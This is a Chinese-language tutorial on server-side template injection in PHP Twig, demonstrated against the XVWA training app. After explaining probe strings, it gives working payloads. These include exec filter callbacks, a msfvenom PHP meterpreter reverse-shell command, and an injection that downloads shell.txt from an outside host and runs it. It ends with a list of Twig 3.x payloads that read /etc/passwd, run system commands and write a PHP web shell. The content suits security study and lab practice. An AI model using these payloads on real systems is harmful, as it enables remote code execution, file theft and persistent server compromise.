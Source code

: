 同常规的 SQL 注入检测，XSS 检测一样，模板注入漏洞的检测也是向传递的参数中承载特定 Payload 并根据返回的内容来进行判断的。

每一个模板引擎都有着自己的语法，Payload 的构造需要针对各类模板引擎制定其不同的扫描规则，就如同 SQL 注入中有着不同的数据库类型一样。

简单来说，就是更改请求参数使之承载含有模板引擎语法的 Payload，通过页面渲染返回的内容检测承载的 Payload 是否有得到编译解析，有解析则可以判定含有 Payload 对应模板引擎注入，否则不存在 SSTI。

凡是使用模板的网站，基本都会存在SSTI，只是能否控制其传参而已。

接下来借助XVWA的代码来实践演示一下SSTI注入

如果在web页面的源代码中看到了诸如以下的字符，就可以推断网站使用了某些模板引擎来呈现数据

```
<div>{$what}</div>
<p>Welcome, {{username}}</p>
<div>{%$a%}</div>
...
```

通过注入了探测字符串 ${{123+456}}，以查看应用程序是否进行了相应的计算：

![img](https://img2020.cnblogs.com/blog/1344396/202008/1344396-20200818231335548-122594708.png)

根据这个响应，我们可以推测这里使用了模板引擎，因为这符合它们对于 {{ }} 的处理方式

在这里提供一个针对twig的攻击载荷：

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```

![img](https://img2020.cnblogs.com/blog/1344396/202008/1344396-20200818231853350-914354726.png)

使用msf生成了一个php meterpreter有效载荷

```
msfvenom -p php/meterpreter/reverse_tcp -f raw LHOST=192.168.127.131 LPORT=4321 > /var/www/html/shell.txt
```

msf进行监听：

![img](https://img2020.cnblogs.com/blog/1344396/202008/1344396-20200818232520602-1757346385.png)

模板注入远程下载shell，并重命名运行

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("wget http://192.168.127.131/shell.txt -O /tmp/shell.php;php -f /tmp/shell.php")}}
```

![img](https://img2020.cnblogs.com/blog/1344396/202008/1344396-20200818232914668-1182705687.png)

以上就是php twig模板注入，由于以上使用的twig为2.x版本，现在官方已经更新到3.x版本，根据官方文档新增了 filter 和 map 等内容，补充一些新版本的payload：



```
{{'/etc/passwd'|file_excerpt(1,30)}}

{{app.request.files.get(1).__construct('/etc/passwd','')}}

{{app.request.files.get(1).openFile.fread(99)}}

{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("whoami")}}

{{_self.env.enableDebug()}}{{_self.env.isDebug()}}

{{["id"]|map("system")|join(",")

{{{"<?php phpinfo();":"/var/www/html/shell.php"}|map("file_put_contents")}}

```